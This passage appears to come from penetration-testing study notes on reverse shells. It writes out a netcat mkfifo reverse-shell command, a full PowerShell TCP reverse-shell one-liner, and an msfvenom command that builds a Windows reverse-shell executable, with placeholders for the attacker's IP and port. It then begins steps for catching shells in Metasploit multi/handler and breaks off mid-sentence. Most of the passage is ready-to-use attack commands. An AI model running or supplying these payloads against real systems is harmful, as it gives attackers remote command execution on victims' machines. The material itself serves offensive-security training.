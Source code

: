 A very similar command can be used to send a netcat reverse shell:

```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

When targeting a **modern Windows Server**, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

In order to use this, we need to replace `"<IP>"` and `"<port>"` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell.

### Msfvenom[​](broken-reference) <a href="#msfvenom" id="msfvenom"></a>

Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Part of the Metasploit framework, is used to generate code for primarily reverse and bind shells.

The standard syntax for msfvenom is as follows: `msfvenom -p <PAYLOAD> <OPTIONS>`.

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

* `-f <format>` specifies the output format
* `-o <file>` The output location and filename for the generated payload
* `LHOST=<IP>`
* `LPORT=<port>`

#### Metasploit multi/handler[​](broken-reference) <a href="#metasploit-multihandler" id="metasploit-multihandler"></a>

The `auxiliary/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Multi/Handler is a superb tool for catching reverse shells.

1. Open Metasploit with `msfconsole`
2. Type `use multi/handler`, and press enter

Lets look at the available `options` command. There are three options we need to set: `payload`, `LHOST` and `LPORT`. Let's do this by using the `exploit -j` command. This tells Metasploit to launch the module, running as a job in the background. Ww will habe to use `sessions`
